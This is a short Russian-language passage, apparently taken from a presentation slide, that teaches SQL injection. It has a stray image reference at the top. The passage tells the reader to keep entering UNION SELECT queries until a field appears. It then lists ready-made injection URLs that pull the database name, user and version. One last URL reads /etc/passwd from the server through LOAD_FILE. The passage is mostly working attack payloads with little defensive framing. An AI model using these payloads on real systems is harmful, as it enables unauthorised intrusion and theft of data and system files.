

Ввод подобных команд необходимо продолжать до тех пор, пока название поля (слово test) окажется в нужном месте.
«Полезными» являются также следующие команды:
http://.../php?id=9999+union+select+null,DATABASE(),null/*
http://.../php?id=9999+union+select+null,USER(),null/*
http://.../php?id=9999+union+select+null,VERSION(),null/*

Можно также попробовать и уязвимость, позволяющую загружать файлы с сервера:
http://.../php?id=9999+union+select+null,LOAD_FILE('/etc/passwd'),null/*